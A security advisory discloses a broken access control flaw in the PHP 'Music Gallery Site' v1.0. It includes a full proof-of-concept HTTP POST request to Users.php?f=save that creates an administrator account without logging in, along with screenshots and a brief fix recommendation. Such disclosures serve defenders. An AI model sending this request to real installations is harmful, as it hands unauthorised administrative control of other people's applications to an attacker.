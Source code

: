 # Music Gallery Site - Broken Access Control leads to compromise of complete application by adding admin user without log-in into the application.

### Date: 
> 21 February 2023
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Music Gallery Site](https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html)
### Version:
> v 1.0
### Broken Authentication:
> Broken Access Control is a type of security vulnerability that occurs when a web application fails to properly restrict users' access to certain resources and functionality. Access control is the process of ensuring that users are authorized to access only the resources and functionality that they are supposed to. Broken Access Control can occur due to poor implementation of access controls in the application, failure to validate input, or insufficient testing and review.

### Vulnerable URLs:
> /php-music/classes/Users.php

>/php-music/classes/Master.php

### Affected Page:
> Users.php , Master.php
> On these page, application isn't verifying the authenticated mechanism. Due to that, all the parameters are vulnerable to broken access control and any remote attacker could create and update the data into the application. Specifically, Users.php could allow to remote attacker to create a admin user without log-in to the application.
### Description:
> Broken access control allows any remote attacker to create, update and delete the data of the application. Specifically, adding the admin users
### Proof of Concept:
> Following steps are involved:
1. Send a POST request with required parameter to Users.php?f=save (See Below Request)

2. Request:
```
POST /php-music/classes/Users.php?f=save HTTP/1.1
Host: localhost
Content-Length: 876
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjwBNagY7zt6cjYHp
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/php-music/admin/?page=user/manage_user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="firstname"

Test
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="middlename"

Admin
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="lastname"

Check
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="username"

testadmin
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="password"

test123
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="type"

1
------WebKitFormBoundaryjwBNagY7zt6cjYHp
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryjwBNagY7zt6cjYHp--

```

3. It will create the user by defining the valid values (see below screenshot of successfull response), Successful exploit screenshots are below (without cookie parameter)

![image](https://user-images.githubusercontent.com/123810418/220352229-389dfaf8-57e0-470d-b8a5-c873a13b3b51.png)

![image](https://user-images.githubusercontent.com/123810418/220352493-ef35a8ba-c613-4745-9004-0159b3841951.png)

4. Vulnerable Code Snippets:

Users.php

![image](https://user-images.githubusercontent.com/123810418/220353008-b1448508-7451-412a-a5eb-049aa20b3d41.png)

Master.php

![image](https://user-images.githubusercontent.com/123810418/220353132-1067a86c-282d-4fc5-8733-ceab4b1fef56.png)


### Recommendation:
> Whoever uses this CMS, should update the authorization mechanism on top of the  Users.php , Master.php pages as per requirement to avoid a Broken Access Control attack:
